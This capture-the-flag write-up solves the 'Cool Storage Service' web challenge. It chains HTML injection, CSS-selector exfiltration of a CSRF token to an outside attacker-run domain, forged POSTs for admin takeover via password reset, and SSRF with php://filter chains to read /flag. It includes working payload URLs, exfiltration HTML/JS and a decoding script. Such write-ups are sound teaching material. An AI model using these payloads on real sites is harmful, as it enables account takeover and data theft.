

# Cool Storage Service (Web, 357p, 7 solved)

In the task we get access to a simple PHP-based file storage service.
Initial setup seems like a classic XSS task, since we can provide admin with a link and he will visit it.
However it seems we can provide only a link to this storage service, and the CSP header is:

`Content-Security-Policy: default-src 'none'; style-src 'self'; img-src data: http:`

This means we can't execute any JS, styles can be loaded only from the same domain and pictures can be loaded from data or from external server.

We can use this service to store files, however `php, php3...` etc. extensions are blacklisted.
The service claims that we can upload only pictures, but in reality the checks are not very strict, so for example prefix `GIF` can fool it, same as appending PNG header.

Once the file is uploaded we can view it, but it's loaded as `data` in base64 form.
We can trigger an error by trying to view non-existing file, and this will tell us that our sandbox is at `/uploads/sha256(our_login)`, but when we try to access the file directly via `http://css.teaser.insomnihack.ch/uploads/...` we get `Direct access to uploaded files is only allowed from localhost`.
This means that even if we could upload a `.php` file, we would probably not be able to execute it.

In some places on the page we get `echo` on our inputs.
For example searching for some filename, we get `Search results for : our text`.
In most places html entities are escaped, but there are a couple of places where it's not the case:

- In `view file` the filename is not escaped, so we can inject html there
- In `user profile` inputs are not escaped and we can inject html there as well
- In `login` screen there is a hidden input `redirect`, which is not escaped


To wrap up what we already have:

- CSP allows to load styles from the same domain
- We can echo any input we want on the page
- We can inject html tags
- CSP allows to load images from external server

This leads us to the first piece of the puzzle - we can inject html tag `<link rel="stylesheet" href="something"/>` tag in order to load css of our choosing.
The `something` has to be a link to the page which echos our payload, for example: 

`http:\\css.teaser.insomnihack.ch\index.php?search=%0a%7B%7D%20body%20%7B%20background-color%3A%20lightblue%3B%20%7D%0a&page=search&.css` 

which prints out `Search results for : {} body { background-color: lightblue; }`

Chaining the two in the form of: `http://css.teaser.insomnihack.ch/index.php?page=login&redirect=%22%3E%3Clink%20rel=%22stylesheet%22%20href=%22http%3A%5C%5Ccss.teaser.insomnihack.ch%5Cindex.php%3Fsearch%3D%250a%257B%257D%2520body%2520%257B%2520background-color%253A%2520lightblue%253B%2520%257D%250a%26page%3Dsearch%26.css`

Shows us a nice blue page, as expected.

We can now use CSS selectors to exflitrate data from the page! 
By creating style with entries in the form:

`input[value^="a" i]{background: url('http://url.we.own/a')`

We can listen for hits on the provided url, and this way we can check if the first letter of `value` attribute of `input` tags on the page is `a`.

There are some issues here:

- The only thing we can really `steal` is CSRF token.
- We can steal data only letter-by-letter. We need to steal first letter in order to prepare new CSS selectors for the second letter.
- It seems the token changes every time we send link to the admin, so we would need to extract the whole token in one go.
- Even if we get the CSRF token, we still can't run any JS, so we can't send any POST request as admin.

Initially we thought that only links to the page `http://css.teaser.insomnihack.ch` can be sent to admin, but it turned out that it was not the case.
In reality there was only a check for the `prefix` of URL, not a real domain check.
This means we could register `http://css.teaser.insomnihack.ch.our.cool.domain` and admin would visit this link just fine.

This solves the issue with sending a POST request, since we can now lure admin into our own page and send request from there.
It also solves the issue of stealing whole CSRF token, because we can now dynamically generate iframes with CSS selectors for consecutive letters.
We create iframe with selectors for first letter, grab the matching letter from our `backend` (listening for hits from CSS), and create another iframe with selectors for two letters using known prefix etc.
Once we have full token we can finally send a POST a admin.

- We were using domain `http://css.teaser.insomnihack.ch.nazywam.p4.team`.
- Endpoint `http://css.teaser.insomnihack.ch.nazywam.p4.team/get_token` was simply blocking until a hit from CSS was done, and then it would return the matching letter.

```html
<html>
<head>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<script>
var token = '';
function gen_src()
{
    src = 'http://css.teaser.insomnihack.ch/?page=login&redirect=%22%3E%3Clink%20rel=%22stylesheet%22%20href=%22?page=search%26search=%25%250a{}%250a'
   
    chars = "0123456789abcdef"
    for(c = 0; c < 16; c++)
        src += 'input[value^=%27'+token+chars[c]+'%27%20i]{background:url(%27http:%252f%252fcss.teaser.insomnihack.ch.nazywam.p4.team%252fsave%252f'+chars[c]+'%27);}%250a'
    document.getElementById('ramek').src = src;
    console.log(src);
 
    $.ajax({
    type: "GET",
    url: "http://css.teaser.insomnihack.ch.nazywam.p4.team/get_token",
    //async: false,
        success: function (data) {
            console.log(data);
            token += data;
            if(token.length < 32)
            {
                gen_src();
                }
            else
            {
                console.log(token);
                document.getElementById('csrf').value=token;
                document.getElementById('form').submit();
            }
        }
        });
}
</script>
</head>
<body onload="gen_src()">
<iframe id="ramek"></iframe>
```

The best place to use the POST ability was the user profile page, because we can modify the user email there.
It's useful, because there was `forgot password` option in the application, and it would send password reset link to email in the profile.

This way we we managed to reset admin password and login to the application as admin.
There is a single new options which is now available for us - fetch:



We can now provide URL and it seems the system downloads the designated image, so we have some kind of potential SSRF.
There is some protection agains using localhost, 127.0.0.1 or internal relative path, but it can be bypassed using php wrappers or `localtest.me` domain, so we can "download" local files and also files in `uploads/`.

The intended way to solve the task was to upload `.pht` file with PHP shell and some `GIF` prefix to fool the parser into thinking it's a picture, and then execute this file using the `fetch` function.
Unfortunately we missed the `.pht` extension trick (although we tried almost all others), and our solution was a bit different.
We noticed that we could `fetch` the flag by using some php filter like `php://filter/read=convert.base64-encode/resource=/flag`, but we get `Not an image` error.

We already know that we could "fool" the parser by using prefix `GIF` at the beginning of the file.
We know that flag starts with `INS{`, what if we could chain a lot of encoders to turn this prefix into `GIF`?
We accidentally found even a simpler way - it turns out the parser would not complain if the payload has a nullbyte at the beginning, so instead of `GIF` prefix we wanted to get a nullbyte.
We run a simple brute-forcing loop which was randomly picking an encoder and attaching it to the chain and testing the output.
After a while we got: `php://filter/read=convert.base64-encode|convert.base64-encode|string.tolower|string.rot13|convert.base64-encode|string.tolower|string.toupper|convert.base64-decode/resource=/flag`

which for our example flag would give output accepted by the page as "image", and it turned out the website accepted this as well and gave us the base64 version of the result:

`ADFOMWL0AGTNYW1OATBTMW1PBXHVC3LNAMFHBWP0ZTZOZ3D0CWPLDWZ6A256D3KYANHXBNF6YWHVDW14ANFVEQ==`

Now the last part was to decode this back to a flag.
We can't simply invert it, because of the `tolower` and `toupper` conversions which are ambigious, but we figured we can try to brute-force it going forward from the known `INS{` prefix.
We can attach a new letter, encode this and check how much of this result matches the expected payload.
We can do this recursively:

```python
import string

s = "ADFOMWL0AGTNYW1OATBTMW1PBXHVC3LNAMFHBWP0ZTZOZ3D0CWPLDWZ6A256D3KYANHXBNF6YWHVDW14ANFVEQ==".decode("base64")


def enc(f):
    f = f.encode("base64")
    f = f.encode("base64")
    f = f.lower()
    f = f.encode("rot13")
    f = f.encode("base64")
    f = f.upper()
    f = f.decode("base64")
    return f


def brute(flg, score):
    print(flg, score)
    for c in string.letters + string.digits + "{}_":
        m = get_score(flg + c)
        if m > score:
            brute(flg + c, m)


def get_score(flg):
    f = enc(flg)
    m = -1
    for i in range(len(f)):
        if f[:i] == s[:i]:
            m = i
    return m


def main():
    flag = "INS{"
    score = get_score(flag)
    brute(flag, score)


main()
```

It doesn't work perfectly, but gives us best solutions as:

```
('INS{SoManyRebflawsCantbegoodfoq9ou}0', 63)
('INS{SoManyRebflawsCantbegoodfoq9ou}1', 63)
('INS{SoManyRebflawsCantbegoodfoq9ou}2', 63)
('INS{SoManyRebflawsCantbegoodfoq9ou}3', 63)

('INS{SoManyWebflawsCantbegoodfoq9ou}0', 63)
('INS{SoManyWebflawsCantbegoodfoq9ou}1', 63)
('INS{SoManyWebflawsCantbegoodfoq9ou}2', 63)
('INS{SoManyWebflawsCantbegoodfoq9ou}3', 63)
```

It might be that adding a certain letter doesn't immediately raise the score, so we don't follow this path, but from here we can already guess the flag to be `INS{SoManyWebflawsCantbegoodforyou}`.
